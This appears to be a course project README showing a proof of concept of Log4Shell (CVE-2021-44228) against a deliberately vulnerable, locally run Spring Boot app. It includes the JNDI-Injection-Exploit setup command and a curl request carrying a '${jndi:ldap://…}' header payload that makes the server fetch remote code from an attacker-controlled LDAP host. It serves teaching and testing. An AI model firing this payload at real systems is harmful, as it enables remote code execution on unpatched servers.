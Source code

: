 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)*

## Setting up the exploit

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

Now, we just need to call the app and introduce the malicious ldap server endpoint as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#1. Notice that we are including the endpoint given by the exploitation tool in the previous step (vqwfzl)
#2. The name of the header does not matter because the app will log all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```
This will bring the same html message that is rendered in the browser

```bash
  <h1 style="color: #5e9ca0;">Log4Shell</h1><h4>Vulnerability - Exploitation and Mitigation</h4><p>API Version: 1.0</p>
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server in the exploitation tool which executed the given command at start up

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/welk1n/JNDI-Injection-Exploit
https://github.com/christophetd/log4shell-vulnerable-app
